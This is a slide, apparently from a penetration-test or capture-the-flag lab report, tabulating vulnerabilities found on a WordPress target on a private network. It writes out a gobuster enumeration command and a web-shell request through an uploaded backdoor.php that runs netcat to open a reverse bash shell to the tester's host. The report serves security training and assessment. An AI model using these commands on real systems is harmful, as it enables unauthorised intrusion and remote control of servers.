

# Critical Vulnerabilities: Target 2
Our assessment uncovered the following critical vulnerabilities in Target 2.

| Vulnerability | Description | Impact |
| --- | --- | --- |
| Directory Enumeration CWE-548: Exposure of Information Through Directory Listing | Used Gobuster to enumerate the wordpress directory Cmd used: gobuster -w /usr/share/wordlists/distributer/directory-list-2.3-medium.txt dir -u 192.168.1.115 | This allowed us access to the /vendor directory where flag 1 was located. |
| Wordpress Arbitrary Command Execution CVE: 2007-1277 | Upload file backdoor.php to Target 2 server through an ncat connection Cmd used: 192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash | This allowed us to directly execute bash commands on Target 2 server |
8